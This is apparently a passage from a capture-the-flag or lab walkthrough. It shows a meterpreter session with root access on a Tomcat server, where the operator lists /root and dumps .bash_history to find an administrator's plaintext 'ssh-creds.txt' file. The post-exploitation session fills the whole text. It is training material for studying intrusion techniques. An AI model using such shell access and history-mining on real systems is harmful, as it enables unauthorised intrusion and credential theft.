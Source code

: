   ~~~bash
  meterpreter > cd /root 
  meterpreter > ls
  Listing: /root
  ==============
  
  Mode              Size  Type  Last modified              Name
  ----              ----  ----  -------------              ----
  100600/rw-------  623   fil   2019-12-08 22:12:44 +0100  .bash_history
  100644/rw-r--r--  570   fil   2019-10-23 21:16:44 +0200  .bashrc
  40700/rwx------   4096  dir   2019-10-23 21:16:52 +0200  .gnupg
  100644/rw-r--r--  140   fil   2019-10-23 21:16:44 +0200  .profile
  40755/rwxr-xr-x   4096  dir   2019-12-08 22:12:45 +0100  .vim
  100600/rw-------  8163  fil   2019-12-08 22:12:44 +0100  .viminfo
  
  meterpreter > cat .bash_history 
  apt install vim
  apt update
  apt install vim
  ls
  cd webapps/
  ls -la
  cd ROOT
  ls -la
  cd WEB-INF/
  ls
  cd ../META-INF/
  ls
  cd ../WEB-INF/
  ls
  ls -la
  vi decorators
  cd decorators
  ls
  ls -la
  vim main.jsp 
  vim main.jsp 
  cd ../../
  ls
  ls -la
  vim showcase.jsp 
  vim showcase.jsp 
  cd images/
  wget http://d21c.com/santa/santa/list-santa.gif
  ls
  cd ../
  vim showcase.jsp 
  ls -la
  cd /home/
  ls
  mkdir santa
  ls -la
  cd santa/
  ls -la
  cd ../
  cd santa/
  vim ssh-creds.txt
  cd ../
  ls -la
  cd santa/
  ls
  cat ssh-creds.txt 
  cd /usr/local/tomcat/webapps/
  ls
  ~~~